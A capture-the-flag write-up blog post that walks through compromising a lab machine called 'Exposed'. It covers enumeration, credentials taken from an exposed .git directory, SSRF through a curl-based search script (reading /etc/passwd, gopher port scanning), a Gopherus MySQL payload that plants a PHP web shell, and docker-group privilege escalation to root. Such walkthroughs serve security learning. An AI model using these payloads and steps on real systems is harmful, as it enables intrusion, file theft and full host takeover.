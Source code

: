 ```yaml
---
layout: post
author: kohaku
title:  "Exposed"
date:   2022-02-26 07:42:03 PM -03
category: Crowsec 
---
```



# Enumeration

{% highlight text  %}
Nmap scan report for 10.8.0.37
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 79:8a:fd:d4:fd:8f:6b:86:1c:90:28:d0:8a:3b:5a:52 (RSA)
|   256 07:74:e9:b4:ac:87:85:17:ea:26:16:0f:8f:81:8e:98 (ECDSA)
|_  256 b3:ee:e8:98:47:42:c7:12:f1:29:1f:01:a5:13:41:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Login Administration
| http-methods:
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight  %}

## Port 80

The main page is a login page, i tried SQL injection, but nothing happen.

So, i start to fuzzing

### Fuzzing

{% highlight bash  %}
ffuf -u http://10.8.0.37/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt | tee fuzz.root
{% endhighlight  %}

{% highlight text  %}
.hta                    [Status: 403, Size: 274, Words: 20, Lines: 10]
.git/index              [Status: 200, Size: 630, Words: 4, Lines: 8]
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2]
.git/config             [Status: 200, Size: 92, Words: 9, Lines: 6]
.git                    [Status: 301, Size: 305, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10]
.git/logs/              [Status: 200, Size: 1128, Words: 77, Lines: 18]
assets                  [Status: 301, Size: 307, Words: 20, Lines: 10]
auth                    [Status: 301, Size: 305, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 2706, Words: 445, Lines: 138]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10]
{% endhighlight  %}

The website has a git exposed. I use gitdumper to extract the .git directory

### Git Exposed

{% highlight bash  %}
/opt/gitdumper.sh http://10.8.0.37/.git/ git
{% endhighlight  %}

Git log shows all the commits and i use git show with the hash of the commit to view the files 

{% highlight text  %}
-> git log
commit 83022d2e8bb833b8a1f2715e2134ec7399f1e181
-> git show 83022d2e8bb833b8a1f2715e2134ec7399f1e181
{% endhighlight  %}

This commit has a lot of files, but two files are interesting 

Login.php and search.php

{% highlight text  %}
Login.php has credentials to login
'user' => 'Crows3cAdminist4ti0n',
'password' => 'S3cr3tP@ss0rd_h4rd!*#9)';

Search.php has a command using curl and system
<?php
    $cmd = "curl ".escapeshellarg($_POST['search'])." |cat";
    system($cmd);
    die();
?> 
{% endhighlight  %}

### Search page

The page has a search page, like i saw on git logs

I use burp to intercept the request and start to test 

{% highlight text  %}
search=file:///etc/passwd -> Return the /etc/passwd file 
{% endhighlight  %}

I start to get a little confused about this script with curl, take me a while to use gopher and start to scan the ports

[What is Gopher? - Definition from Techopedia](https://www.techopedia.com/definition/5360/gopher)

I created a script to do a SSRF using gopher and scan the ports

{% highlight bash  %}
for port in {22,21,80,8080,3306}; do echo $port; curl -X POST http://10.8.0.37/search.php -d "search=gopher://localhost:$port/_TEST" -b "PHPSESSID=<Use the php cookie>"; done
{% endhighlight  %}

Looking at the response, i saw the mysql response the request. This host has a MySQL on the localhost

### Gopherus

https://github.com/tarunkant/Gopherus

I use gopherus to create a mysql payload

Note: Remember to double url encode the payload. Because the php do a urldecode and this can cause issues to the payload

{% highlight text  %}
gopherus --exploit mysql
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%56%00%00%00%03%73%65%6c%65%63%74%20%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%24%5f%47%45%54%5b%27%63%6d%64%27%5d%29%20%3f%3e%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%22%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%61%73%73%65%74%73%2f%72%65%76%65%72%73%65%2e%70%68%70%22%3b%01%00%00%00%01
{% endhighlight  %}

{% highlight bash  %}
payload -> select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/assets/cmd.php" #www-data only has access to assets
{% endhighlight  %}

Burp request with double url

![Untitled](/images/crowsec/exposed/doubleURLEncode.png)

Go to the /assets/<name>.php to access the RCE and create a reverse shell

## Root Flag

www-data is in docker group

`uid=33(www-data) gid=33(www-data) groups=33(www-data),117(docker)`

Using docker images, I saw the docker has no images and i search how to load a local image

- Step 1: Go to my machine and pull alpine image `docker pull alpine`
- Step 2: Export docker image: docker save -o <image.tar> <image> | docker save -o `alpine.tar` `alpine`
- Step 3: Transfer this .tar file to the victim machine
- Step 4: Load the docker image: docker load -i <image.tar> | docker load -i `alpine.tar`
- Step 5: Create a docker container using this image: docker run -it -v /root:/root alpine sh
